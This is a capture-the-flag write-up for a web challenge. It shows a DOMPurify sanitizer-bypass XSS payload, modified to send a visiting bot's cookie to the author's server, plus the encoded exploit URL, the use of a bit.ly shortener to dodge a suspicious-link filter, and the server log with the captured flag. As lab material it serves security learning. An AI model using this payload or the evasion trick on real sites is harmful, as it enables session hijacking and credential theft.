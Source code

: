 # Purr-Purr

```
Якщо ви читали "Мистецтво обману" Кевіна Митника, то знаєте яка найбільша вразливість у кібербезпеці.
```

After following the [link](https://purr-purr.ua30ctf.org/) we get the landing page with a frog Mike

![Mike](./images/landing_page.png)

The first strange thing i noticed that search button is blocked by the image so i guessed that the exploitation would be related to this. 

After exploring a little bit we can also find the contact button that leads to _/contact.php_ endpoint where we can submit a link to someone, very interesting.

![Contact](./images/contact.png)

Also in the source code we can __DOMpurify.min.js__ file. For now just taking notes.

So if we can submit a url to someone that will read it, the first thing that comes to mind is vulnerable xss page with attacker's payload, so let's try it with search functionality.

![XSS](./images/xss.png)

![Filtered](./images/filter.png)

It got completely filtered out. And when we look at the source code we can se DOMpurify.sanitize in action.

The code responsible for that:

```
var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

    // You shall not pass
    var clean = DOMPurify.sanitize(searchinput);
    $("#current_search").html(clean);
    //alert(searchinput);
    //alert(clean);
```

I tried several more payloads to see how it behaves but only several html injection payloads seemed to work that would not lead to any vulnerability. So i started to google about DOMPurify bypass and found an [article](http://sergeykish.com/dompurify-bypass). 

I use firefox so i decided to try the first payload.

```
<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
```

Now that we have XSS let's modify the payload to steal the cookie of whoever reads our url after the sumbition on the contact page.

```

<form><math><mtext></form><form><mglyph><style></math><img src onerror=window.location.href='http://10.110.0.5:8000?cookie='+document.cookie>
```

Where 10.110.0.3:8000 - our server. I used php, but you could use anything else such as python's module http.server

```
[GMtranscendence] $ php -S 0.0.0.0:8000
[Fri Apr 28 20:11:28 2023] PHP 8.2.5 Development Server (http://0.0.0.0:8000) started
```

And we try to submit the following url that is automatically url encoded after we use the search functionality

```
https://purr-purr.ua30ctf.org/search.php?searchinput=%3Cform%3E%3Cmath%3E%3Cmtext%3E%3C%2Fform%3E%3Cform%3E%3Cmglyph%3E%3Cstyle%3E%3C%2Fmath%3E%3Cimg+src+onerror%3Dwindow.location.href%3D%27http%3A%2F%2F10.110.0.5%3A8000%3Fcookie%3D%27%2Bdocument.cookie%3E
```

![Submit](./images/xss_submit.png)

After that we can see the response 

![Response](./images/response.png)

Oh no, our link is too suspicious. Let's try to obfuscate it by shortening via bitly.com

```
https://bit.ly/3HpwYFH
```

![Submit](./images/xss2_submit.png)

And submit it again with fingers crossed.

```
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 [404]: GET /?cookie=FLAG=ctf%7BEnjoy_The_Silence_aGSKrC7dGcY%7D - No such file or directory
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 Closing
```

We got our flag in a request!

## ctf{Enjoy_The_Silence_aGSKrC7dGcY}











